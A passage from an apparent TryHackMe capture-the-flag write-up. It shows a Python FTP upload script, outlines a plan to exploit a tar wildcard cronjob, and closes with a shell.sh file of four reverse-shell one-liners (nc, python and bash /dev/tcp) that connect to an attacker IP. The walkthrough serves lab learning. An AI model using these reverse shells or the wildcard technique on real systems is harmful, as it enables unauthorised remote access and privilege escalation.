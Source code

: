 Everytime I see a FTP server, I check if I have write permission on the server and if I have write permissions, then I check if the written files are reflected anywhere on the webserver.

### Writing a file
```py
import ftplib
session = ftplib.FTP('172.20.0.1','backupmgr','<ftp_readacted_password>')
session.set_pasv(False)
file = open('test.txt','rb')
session.cwd('files')                          # file to send
session.storbinary('STOR test.txt', file)     # send the file
file.close()                                  # close file and FTP
print(session.dir())
session.quit()
```
Here, I have tried to upload a file called `test.txt` to remote FTP server inside **files** directory.

### Executing the script
```console
www-data@Jeff:/tmp$ echo 'This is a test file' > test.txt
www-data@Jeff:/tmp$ python3.7 upload.py 
-rwxr-xr-x    1 1001     1001           20 Dec 28 16:13 test.txt
None
www-data@Jeff:/tmp$ 
```
And we can clearly see that the file exists on the FTP server which means that we have write permission on the folder **files**. I then checked on all the sites whether the test.txt file is reflected, but I did not find anything.

Struggling at this point for some time, I thought of tar wildcard vulnerability that I have used a lot for privilege escalation on different rooms of THM. But, We can not know for sure what the user has done to implement the backup process. If the user is running a cronjob on the host to create a tar archive of all the files inside the **files** directory, then we can abuse that to get code execution on the host.

Using this [article](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/), I have created and uploaded 3 files.

## Reverse Shell as backupmgr

### Content of shell.sh
```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.31.213 9001 >/tmp/f
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
bash -i >& /dev/tcp/10.6.31.213/9001 0>&1
```
